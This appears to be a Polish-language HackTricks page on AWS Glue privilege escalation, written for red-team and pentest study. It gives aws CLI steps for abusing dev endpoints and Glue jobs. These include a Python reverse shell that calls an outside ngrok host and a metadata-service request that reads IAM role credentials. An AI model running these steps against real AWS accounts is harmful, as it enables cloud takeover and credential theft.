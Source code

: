 # AWS - Eskalacja uprawnień w usłudze Glue

{% hint style="success" %}
Dowiedz się i ćwicz Hacking w AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Szkolenie AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Dowiedz się i ćwicz Hacking w GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Szkolenie GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na githubie.

</details>
{% endhint %}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Użytkownicy posiadający te uprawnienia mogą **skonfigurować nowy punkt końcowy dla rozwoju AWS Glue**, **przypisując istniejącą rolę usługi, którą można przejąć przez Glue** z określonymi uprawnieniami do tego punktu końcowego.

Po skonfigurowaniu **atakujący może uzyskać dostęp SSH do instancji punktu końcowego** i ukraść poświadczenia IAM przypisanej roli:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
W celu zachowania dyskrecji zaleca się korzystanie z poświadczeń IAM z wirtualnej maszyny Glue.

**Potencjalny wpływ:** Eskalacja uprawnień do określonej roli usługi Glue.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Użytkownicy z tym uprawnieniem mogą **zmieniać istniejący punkt końcowy** deweloperski Glue, **umożliwiając dostęp SSH do niego**. Pozwala to atakującemu wykonywać polecenia z uprawnieniami przypisanej roli punktu końcowego:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**Potencjalne skutki:** Eskalacja uprawnień do roli usługi Glue.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Użytkownicy posiadający **`iam:PassRole`** w połączeniu z **`glue:CreateJob` lub `glue:UpdateJob`**, oraz z **`glue:StartJobRun` lub `glue:CreateTrigger`** mogą **tworzyć lub aktualizować zadanie AWS Glue**, przypisując dowolne **konto usługi Glue**, i uruchamiać wykonanie zadania. Możliwości zadania obejmują uruchamianie arbitralnego kodu Pythona, co może zostać wykorzystane do ustanowienia powrotnej powłoki. Następnie powrotna powłoka może zostać wykorzystana do wycieku **poświadczeń IAM** przypisanych do roli przypisanej do zadania Glue, co prowadzi do potencjalnego nieautoryzowanego dostępu lub działań na podstawie uprawnień tej roli:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**Potencjalny wpływ:** Przywileje do roli usługi glue określonej.

### `glue:UpdateJob`

Tylko z uprawnieniem do aktualizacji atakujący mógłby ukraść poświadczenia IAM już przypisane do roli.

**Potencjalny wpływ:** Przywileje do roli usługi glue przypisanej.

## Referencje

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)
